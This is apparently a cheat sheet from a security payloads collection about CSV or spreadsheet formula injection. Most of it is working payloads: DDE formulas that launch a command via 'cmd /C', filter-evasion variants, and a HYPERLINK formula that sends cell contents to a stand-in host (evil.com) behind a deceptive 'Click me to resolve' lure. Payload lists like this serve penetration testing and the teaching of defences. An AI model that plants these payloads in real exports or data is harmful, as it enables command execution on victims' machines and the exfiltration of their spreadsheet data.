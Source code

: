 # CSV Injection

### Payloads

```
-1+1+cmd|' /C calc'!A0
-2+3+cmd|' /C calc'!A0
+2+3+cmd|' /C calc'!A0
@2+3+cmd|' /C calc'!A0

# no warning to user
=HYPERLINK("http://evil.com?x="&A3&","&B3&"[CR]","Error fetching info: Click me to resolve.")

# untested see "excel-export-attacks.pdf" for examples of DDE
=DDE("cmd";"/C calc";"__DdeLink_60_870516294")
=DDE("cmd";"/C calc";"!A0")

%0A-2+3+cmd|' /C calc'!D2      # %0A is NewLine which excel will
                               # ref: https://bugzilla.mozilla.org/show_bug.cgi?id=1259881
                               #      https://bugzilla.mozilla.org/show_bug.cgi?id=1263581
```

### Filter Evasion:

```
# Ref slide 21: https://www.slideshare.net/exploresecurity/camsec-sept-2016-tricks-to-improve-web-app-excel-export-attacks
# Slide deck is available in downloads: excel-export-attacks.pdf
=cmd| ...
-cmd| ...
"=cmd| ..."
=(cmd| ...)
=0-cmd|...
+cmd|...
""=cmd|
@sum(cmd|...)
```

### References

* [DDE Function](https://wiki.openoffice.org/wiki/Documentation/How_Tos/Calc:_DDE_function)
* [Weaponizing](https://sensepost.com/blog/2016/powershell-c-sharp-and-dde-the-power-within/)
* [Excel Export Attacks](../downloads/excel-export-attacks.pdf)
